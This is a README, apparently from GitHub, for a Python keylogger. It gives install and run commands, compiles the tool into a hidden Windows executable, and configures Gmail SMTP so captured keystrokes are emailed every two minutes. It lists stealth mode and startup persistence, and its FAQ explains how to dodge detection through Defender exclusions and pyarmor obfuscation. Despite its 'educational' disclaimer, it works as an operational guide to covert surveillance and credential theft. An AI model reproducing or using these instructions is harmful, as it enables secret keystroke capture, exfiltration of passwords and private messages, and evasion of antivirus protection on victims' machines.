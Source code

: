# 🖥️ Python Keylogger  
*A lightweight, educational keylogger for Windows & Linux*  

> ⚠️ **Warning**: Use only for **ethical/educational purposes**. Unauthorized use is illegal.  

---

## 🚀 Quick Start  
### 1️⃣ **Install Dependencies**  
Run this in terminal (Linux/Windows):  
```bash
# Install Python if missing (Linux)
sudo apt update && sudo apt install python3 python3-pip -y

# Install dependencies
pip install pynput pyinstaller
2️⃣ Download & Run
bash
git clone https://github.com/yourusername/keylogger.git
cd keylogger
python3 keylogger.py  # Or compile with PyInstaller
3️⃣ Compile to EXE (Optional)
bash
pyinstaller --onefile --noconsole keylogger.py
# Output: ./dist/keylogger.exe
⚙️ Configuration
Edit keylogger.py before running:

python
# Email settings (Gmail recommended)
sender = "your_email@gmail.com"
password = "your_app_password"  # Enable 2FA & generate App Password
receiver = "receiver_email@gmail.com"
report_interval = 120  # Email logs every 2 minutes
🔧 Features
📁 Local Logging: Saves to keylog.txt

📧 Email Reports: Auto-sends logs via SMTP

👻 Stealth Mode: No terminal popup (Windows)

🔄 Persistence: Add to startup (Windows only)

❓ FAQ
Q: How to make it undetectable?

Disable Defender: Add exclusion for the .exe

Obfuscate: Use pyarmor to encrypt the script

Q: Why is my email not sending?

Enable "Less Secure Apps" in Gmail or use an App Password

📜 Legal Disclaimer
This tool is for educational purposes only. The creator assumes no liability for misuse.

📌 Credits
Coded with ❤️ by [Your Name]
🔗 GitHub: github.com/yourusername
